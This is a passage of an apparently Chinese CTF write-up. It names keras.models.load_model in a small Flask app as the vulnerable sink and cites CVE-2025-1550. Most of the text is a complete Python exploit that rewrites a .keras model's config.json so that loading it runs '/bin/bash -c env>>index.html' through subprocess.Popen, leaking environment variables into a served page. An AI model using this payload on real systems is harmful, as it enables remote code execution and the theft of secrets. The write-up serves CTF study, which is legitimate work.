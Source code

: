 ```

        return jsonify({'error': 'Invalid model file'}), 400

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5001)
```

代码也没啥好审的，很明显就只有一个keras.models.load_model(modelname)能当作sink点，去网上搜一下相关漏洞就能找到现成的payload，题目不出网，外带到index.html即可

https://blog.huntr.com/inside-cve-2025-1550-remote-code-execution-via-keras-models

exp

```
import os
import zipfile
import json
from keras.models import Sequential
from keras.layers import Dense
import numpy as np

model_name = "test.keras"

x_train = np.random.rand(100, 28 * 28)
y_train = np.random.rand(100)

model = Sequential([Dense(1, activation='linear', input_dim=28 * 28)])

model.compile(optimizer='adam', loss='mse')
model.fit(x_train, y_train, epochs=5)
model.save(model_name)

with zipfile.ZipFile(model_name, "r") as f:
    config = json.loads(f.read("config.json").decode())

config["config"]["layers"][0]["module"] = "keras.models"
config["config"]["layers"][0]["class_name"] = "Model"
config["config"]["layers"][0]["config"] = {
    "name": "mvlttt",
    "layers": [
        {
            "name": "mvlttt",
            "class_name": "function",
            "config": "Popen",
            "module": "subprocess",
            "inbound_nodes": [{"args": [["/bin/bash", "-c", "env>>index.html"]], "kwargs": {"bufsize": -1}}]
        }],
    "input_layers": [["mvlttt", 0, 0]],
    "output_layers": [["mvlttt", 0, 0]]
}

with zipfile.ZipFile(model_name, 'r') as zip_read:
    with zipfile.ZipFile(f"tmp.{model_name}", 'w') as zip_write:
        for item in zip_read.infolist():
            if item.filename != "config.json":
                zip_write.writestr(item, zip_read.read(item.filename))

os.remove(model_name)
os.rename(f"tmp.{model_name}", model_name)

with zipfile.ZipFile(model_name, "a") as zf:
    zf.writestr("config.json", json.dumps(config))

```